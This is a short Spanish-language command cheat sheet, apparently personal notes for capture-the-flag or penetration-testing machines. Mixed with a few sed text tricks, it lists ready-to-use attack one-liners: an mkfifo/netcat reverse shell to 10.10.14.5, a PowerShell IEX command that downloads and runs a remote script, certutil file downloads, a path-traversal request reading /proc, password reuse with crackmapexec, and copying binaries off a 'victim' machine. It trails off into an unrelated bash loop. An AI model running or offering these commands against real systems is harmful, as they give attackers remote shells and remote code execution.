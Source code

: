 ## Expresion regulares 
**Expresion regular para añadir texto antes de cada oracion:** ``sed -E 's/^(.*)/Texto a añadir \1/g;s/\r//'``
**Expresion regular para eliminar espacios en blanco de un texto:** `'/^\s*$/d'`
## Linux
**Reverse Shell; MKFIFO**: ``rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 10.10.14.5 443 >/tmp/f;*``
**Reutilizar contraseña para todos los usuarios en el sistema con CME(crackmapexec)**: ``-u users -p '<password>' --continue-on-success``
**Ejecutar comandos desde consola interactiva de Python3 y ver el output**: ``print(os.popen(""$command")).read())``
**Mandar binarios de maquina victima a maquina atacando con SSH**: ``sshpass -p '$passwd' scp $user@$ip:/path/to/binary .``
**Conseguir la fecha, hora, segundo y año(linux):** ``date +%F_%H:%M:%S ``
**Listar PID de procesos activos:** `"http://10.10.11.201:8000/?page=../../../../proc/$i/cmdline" -o -`
**Buscar por archivos con palabra determinada:** `find -name \*config\* 2>/dev/null | xargs cat`
## Windows
**Tirar de la ruta nativa de powershell en caso de obtener acceso denegado**: `C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell` o  `C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell`
**Vaciar el contenido de un archivo con cmd**: `<cmd /c> "copy /y NUL clean.bat"`
**Descargar e intrepretar archivo powershell(invoke)**: `<powershell> IEX(New-Object Net.WebClient).downloadString('http://<ip>/<PsScript>')` 
**Descargar archivos con certutil**: `certutil.exe -f -urlcache -split http://<ip>/<file> <name>`
**Para listar drivers existentes**: `driverquery`
**Filtrar por las flags en maquinas windows**: `cmd /c dir /r /s $flag.txt`
**Convertir un archivo a b64 con certutil para su posterior decode**: `certutil.exe -encode root.exe root.exe.b64`
## Grupos y los privilegios que tienen(linux)
**Privilegios:**
1. **ADM**. Permite leer logs.
i=1; for folder in $(ls -d */); do mv "$folder" "$i.$folder"; i=$((i+1)); if [ $i -gt 10 ]; then break; fi; done

